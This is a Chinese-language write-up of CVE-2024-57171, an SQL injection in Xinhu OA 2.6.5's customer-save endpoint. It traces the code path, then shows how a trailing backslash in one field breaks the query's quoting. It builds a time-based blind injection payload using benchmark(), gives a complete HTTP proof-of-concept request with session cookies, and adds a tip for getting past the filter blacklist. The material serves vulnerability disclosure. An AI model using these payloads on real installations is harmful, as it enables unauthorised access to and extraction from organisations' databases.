

# CVE-2024-57171

https://github.com/rainrocka/xinhu.git

版本：信呼OA的2.6.5版本

# 1.客户管理处存在sql注入

新增客户


## 抓包查看路由


## 源码定位

index.php#34 引用了View.php


View.php中对参数解析，再引用


```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=792761
```

变为

```
$m = mode_customer
$_m=input
$a=save
$actname = saveAjax
```


如上图，最终调用 mode_customerClassAction.saveAjax

由于mode_customerClassAction没有saveAjax，因此最终调用inputAction.saveAjax




在241进行数据库保存，为了方便调试，将$uaarr输出进行参数查看


## 动态调试

在新增客户中，随便找个参数，通过添加 \ 进行绕过

```
linkname=a3\
```

payload为

```
id=0&sxuanfileid=&name=1234&laiyuan=%E7%BD%91%E4%B8%8A%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=22&mobile=33&sheng=&shi=44&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```

此时返回包出现报错


进入日志查看具体的sql语法


sql语法使用单引号闭合并且没有对 \ 进行处理导致引号错误

改一下payload

```
linkname=a3\
explain=1%20--%20
```

报错如下图


将语句复制到sql查询中查看，此时引号闭合且 1 成功逃逸


将explain中的1删掉


成功添加用户

将1改成时间盲注的语句

```
linkname=a3\
explain=;(select(if(1=1,(benchmark(10000000,SHA1('Hello'))),2)=1))%20--%20
```

还是报错了


时间盲注语句在sql查询中能正常执行，但在这里不行。说明可能是分号的问题，将分号去掉改成逗号

```
linkname=a3\
explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20
```


成功盲注

## POC

```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=131480 HTTP/1.1
Host: 127.0.0.1
Content-Length: 368
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/?a=lu&m=input&d=flow&num=customer&mid=0&callback=opegs1733901100171_7188
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: deviceid=1733896888157; xinhu_ca_adminuser=admin; xinhu_ca_rempass=1; PHPSESSID=0gjig9u51nhbp8m7cijt12e520; xinhu_mo_adminid=dv0cj0xxb0cx0xjx0dm0mu0xxd0vj0xll0mj0xju0md0mx0mw0cd012; xinhu_ca_adminpass=lw0lx0li0hhj0wx0lx0ei0hio0xx0hoj0xx0el06
Connection: close

id=0&sxuanfileid=&name=11&laiyuan=%E7%94%B5%E8%AF%9D%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=&mobile=&sheng=&shi=&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```


# 补充

测试过程中发现黑名单，可以直接去源码中搜被过滤的字符串从而找到黑名单;加逗号是因为php数组以逗号隔开元素

```
select被过滤 -> select,
```


